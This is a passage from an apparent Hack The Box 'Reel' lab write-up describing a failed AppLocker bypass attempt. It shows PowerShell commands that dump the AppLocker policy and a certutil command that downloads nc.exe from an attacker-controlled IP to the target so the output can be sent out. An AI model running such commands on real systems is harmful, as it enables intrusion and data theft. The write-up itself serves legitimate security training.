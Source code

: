 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-20.png)

### AppLocker Bypass (Failed)

> For the following content, we took [this article](https://juggernaut-sec.com/applocker-bypass/) as a reference. 

Let's take a look at the AppLocker Policy:

`powershell -c "Get-ApplockerPolicy -Effective -Xml"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-32.png)

Since the output is too big, let's save it to a file:

`powershell -c "Get-ApplockerPolicy -Effective -Xml | Out-File -FilePath 'C:\ProgramData\output.xml'"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-33.png)

Now let's try transferring the output to our local machine to take a better look at it. We will use nc.exe to do so. 

We will first transfer the nc.exe file over to the target machine using certutil.exe:

`certutil.exe -urlcache -split -f http://10.10.14.36:8000/nc.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-21.png)
